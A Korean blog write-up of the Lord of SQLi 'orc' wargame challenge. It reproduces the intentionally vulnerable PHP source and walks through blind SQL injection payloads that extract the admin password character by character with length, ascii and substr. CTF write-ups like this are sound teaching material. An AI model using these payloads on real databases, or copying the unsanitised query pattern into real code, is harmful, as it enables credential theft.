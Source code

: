 ```yaml
---
layout: post
title: "LoS orc"
author: "isanghyeon"
tags: wargame
---
```


|문제 명|풀이 여부|URL|
|:------:|:---:|:-----:|
| **orc** | <span style="color:red">O</span> | https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php |

<hr/><br>

### Challenge Source Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

<br>

### Analysis Source Code
- #### preg_match function for $_GET[pw]
> ```php 
> preg_match('/prob|_|\.|\(\)/i', $_GET[pw])
> ```
- #### Solve Conditions - 1
> ```php
> if($result['id']) echo "<h2>Hello admin</h2>"; 
> ```
|query|parms1|params2|
|:--:|:--:|:--:|
|select id from prob_orc where id='admin' and pw='{$_GET[pw]}'|id='admin'|pw='{$_GET[pw]}'|

id 의 값은 'admin'으로 고정된 상태에서 pw의 값을 구해야한다.  
특정 query 를 삽입했을 때 참, 거짓을 통해 password를 한 글자 씩 유추해나가야한다. 이때 사용할 수 있는 공격은 <span style="color:red"> blind SQL injection </span>이다.  
먼저 pw의 길이를 알아보기 위해 아래와 같이 length() 함수를 사용한다.  
```sql
select id from prob_orc where id='admin' and pw='nop' or id='admin' and length(pw)=8#'
```
length(pw)의 값은 ```length(pw) < N(10>|length(pw)|>5)#``` 를 통해 구할 수 있었다.  

<br> 

- #### addslashes function for $_GET[pw]
> ```php 
> $_GET[pw] = addslashes($_GET[pw]);
> ```
- #### Solve Conditions - 2
> ```php
> if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
> ```
|query|parms1|params2|
|:--:|:--:|:--:|
|select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'|id='admin'|pw='{$_GET[pw]}'|

대게 <span style="color:red"> blind SQL injection </span> 공격을 진행할 때 사용되는 함수는 아래 테이블과 같다.

|func|description|
|:--:|:--:|
| ascii | description |
| substr | description |
| etc | or another functions |

해당 문제 풀이를 위해 사용된 공격 query 예시는 다음과 같다. 
```sql
select pw from prob_orc where id='admin' and pw='nop' or id='admin' and ascii(substr(pw, index(<=length(pw)), 1))<ascii(max=127, min=33)#
```
위 query를 지속적으로 전송하면서 ascii값을 맞춰 보면 한 글자씩 pw 값을 구할 수 있다.

<hr/>
<br>

### Exploit Source Code
|작성 언어|Exploit Link|How to Exploit|
|:------:|:---:|:--:|
| **Python3.8** | https://github.com/isanghyeon/LordofSQLi-Solved-Exploit/tree/master/orc | Blind SQL injection |